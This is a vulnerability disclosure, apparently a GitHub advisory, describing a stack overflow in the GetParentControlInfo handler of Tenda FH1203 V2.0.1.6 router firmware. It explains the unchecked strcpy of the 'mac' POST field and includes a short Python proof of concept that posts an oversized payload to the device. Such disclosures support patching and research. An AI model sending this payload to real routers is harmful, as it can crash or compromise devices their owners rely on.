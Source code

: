 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `GetParentControlInfo` function. The `src` variable receives the `mac` parameter from a POST request and is later assigned `s` to by function `strcpy`. However, since the user can control the input of  `mac`, it can cause a stack overflow. The user-provided  `mac` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240319223723575](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223723575.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/GetParentControlInfo"
payload = b"a"*1000

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320014207186](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320014207186.png)